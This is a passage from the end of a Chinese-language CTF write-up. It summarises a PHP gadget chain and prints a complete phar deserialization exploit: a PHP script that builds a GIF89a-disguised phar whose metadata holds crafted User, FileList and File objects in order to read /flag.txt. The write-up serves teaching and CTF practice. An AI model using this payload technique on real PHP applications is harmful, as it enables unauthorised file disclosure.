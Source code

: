 这一步用两个**foreach**把二元数组**result**的值遍历存进了**$table**，最后echo完美的构造了链子

#### 总结

所以链子就是

```ABAP
delete->File->unlink
User->__destruct
FileList->__call [触发File->close()] ->__destruct
```

#### exp

```php
<?php
    class User {
    	public $db;
    }
    class File {
    	public $filename;
    }
    class FileList {
        private $files;
        private $results;
        private $funcs;
        public function __construct() {
            $this->files = array();
            $this->results = array();
            $this->funcs = array();
            
            $file = new File();
            $file->filename = '/flag.txt';	# 这里的flag.txt是多次猜测出来的
            array_push($this->files, $file);
    	}
    }

    $user = new User();
	$filelist = new FileList();
	$user->db = $filelist;

    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加png文件头
    $phar->setMetadata($user); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

<font color='whiblue'>**太太太棒了😍😍**</font>


